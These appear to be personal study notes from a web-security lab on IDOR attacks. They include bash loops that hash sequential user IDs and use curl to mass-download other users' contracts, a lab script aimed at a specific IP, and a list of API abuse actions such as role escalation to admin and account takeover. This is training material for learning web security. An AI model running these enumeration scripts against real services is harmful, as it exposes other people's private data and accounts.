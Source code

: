 #### Encoding the UID with the above algorithm
```Shell
echo -n 1 | base64 -w 0 | md5sum
```
*Tip: We are using the -n flag with echo, and the -w 0 flag with base64, to avoid adding newlines, in order to be able to calculate the md5 hash of the same value, without hashing newlines, as that would change the final md5 hash.*

#### Mass Enumeration of Encoded References
```Shell
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```
`tr -d ' -'` removes any trailing characters

```bash
#!/bin/bash

for i in {1..10}; do
	for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
		curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
	done
done
```

***LAB Notes:*
Used the following bash script for a GET request to encode the UIDs in base64:
```bash
#!/bin/bash

url="138.68.164.196:30195"

for i in {1..20}; do
	for hash in $(echo -n $i | base64); do
		curl -s "$url/download.php?contract=$hash"
	done
done
```

The function to encode was the following:
```JavaScript
   function downloadContract(uid) {
      window.location = `/download.php?contract=${encodeURIComponent(btoa(uid))}`;
    }
```

### IDOR in Insecure APIs

#### Identifying Insecure APIs
![[Pasted image 20230214105453.png]]
Intercept a `PUT` request. `PUT` requests are usually used in APIs to update item details, while `POST` is used to create new items, `DELETE` to delete items, and `GET` to retrieve item details. Of interest in the above request is `role`, both in the API call and the cookie.

#### Exploiting Insecure APIs
Actions that can be taken:
- Change our uid to another user's uid, such that we can take over their accounts
- Change another user's details, which may allow us to perform several web attacks
- Create new users with arbitrary details, or delete existing users
- Change our role to a more privileged role (e.g. admin) to be able to perform more actions
- Modifying the HTTP request method (e.g., `PUT` -> `POST`)
